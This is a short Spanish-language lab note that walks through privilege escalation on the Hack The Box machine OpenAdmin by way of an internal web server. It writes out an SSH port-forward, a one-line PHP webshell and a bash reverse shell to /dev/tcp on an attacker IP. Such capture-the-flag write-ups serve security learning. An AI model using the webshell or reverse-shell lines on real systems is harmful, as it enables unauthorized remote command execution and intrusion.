 ## DESCRIPTION

Si encontramos un servidor web que es ejecutado por otro usuario --> se puede intentar a alojar en el directorio web un fichero (webshell) de forma que cuando el usuario acceda a el usando el navegador se ejecute.

#### Mas información
* https://0xdf.gitlab.io/2020/05/02/htb-openadmin.html

## EXPLOITATION

1. Encontramos que hay un servidor web corriendo internamente:
```
netstat -atunp
```

2. Miramos el fichero de configuración en /etc/apache2/sites-enabled:

![[Pasted image 20230111195258.png]]

3. Abrimos un tunel SSH para mapear el puerto:

```
ssh jimmy@10.10.10.171 -L 52846:localhost:52846
``` 

![[Pasted image 20230111195348.png]]
 
4. Colocamos una webshell php en el directorio:

````
echo '<?php system($_GET["cmd"]); ?>' > test.php 
````

![[Pasted image 20230111200105.png]]

5. Accedemos en el navegador a nuestra webshell y utilizamos nc para conseguir acceso:

```
En el navegador: test.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'
```

## MACHINES

* Hack The Box: OPENADMIN
